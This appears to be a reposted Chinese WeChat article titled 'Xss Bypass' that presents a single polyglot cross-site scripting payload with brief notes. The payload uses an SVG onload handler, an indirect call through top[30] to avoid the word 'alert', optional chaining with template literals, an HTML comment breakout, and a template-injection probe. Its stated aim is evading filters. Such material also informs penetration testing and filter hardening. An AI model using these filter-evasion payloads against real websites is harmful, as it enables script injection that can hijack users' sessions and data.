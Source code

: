 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTk4MTE1MQ==&mid=2247487603&idx=1&sn=0852f50d3a2315196b73b8de0adad973

#  Xss Bypass  
 TtTeam   2025-07-22 07:48  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3klRSQMgaCtdZdSmH9icftaC5jgfMMr5vYzMQ2VRu166kWLGkVKzCGeAMTB31kuTnDzIhWj5SPXpg/640?wx_fmt=png&from=appmsg "")  
  

```
'&#34;--><svg/onload=top[30]()>${{4*9}}<script>+alert?.``</script>
```

- top[30] () →不使用 alert 字词触发 XSS   
  
- alert? .\`` →可选链 + 模板字面量隐秘 JS 执行   
  
- -->< svg > →跳出 HTML 注释   
  
- $ {{ 4*9 }} → SSTI,CSTI  
  
